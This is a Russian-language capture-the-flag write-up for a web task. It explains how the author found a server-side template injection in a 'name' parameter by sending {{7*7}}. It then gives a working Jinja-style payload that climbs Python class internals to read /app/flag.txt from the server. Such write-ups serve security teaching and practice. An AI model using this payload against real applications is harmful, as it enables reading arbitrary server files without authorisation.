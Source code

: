 # Admin's secrets - 60
_Хм, кажется наш админ решил углубиться в веб разработку и делает что то интересное.. К сожалению, никакой документации к передаваемым параметрам он не оставил, придется потыкать. Зато мы точно знаем что все интересное он положил в /app/flag.txt Сможете достать?_

_http://62.84.119.240:8082/_

### Solution
![Начальная страница](default.png)
Перед нами почти пустая html страница, содержащая только 1 строку с полем Name и значение name. В условии сказано: `никакой документации к передаваемым параметрам`.
Это подталкивает на мысль о том, что можно попробовать сделать запрос с каким-нибудь параметром (например name).

На такой запрос http://62.84.119.240:8082/?name=h4x0r сервер ответит так:
![name=h4x0r](name.png)

Испробовав разные методы, обнаруживаем, что на запрос http://62.84.119.240:8082/?name={{7*7}} получаем:

![Найдена уязвимость](inj1.png)

Это `Template Injection`. Используем его, чтобы прочитать файл /app/flag.txt

Например, такой запрос `http://62.84.119.240:8082/?name={{g.__class__.__mro__[1].__subclasses__()[-35]("/app/flag.txt").read()}}` вернёт флаг:

![Flag](flag.png)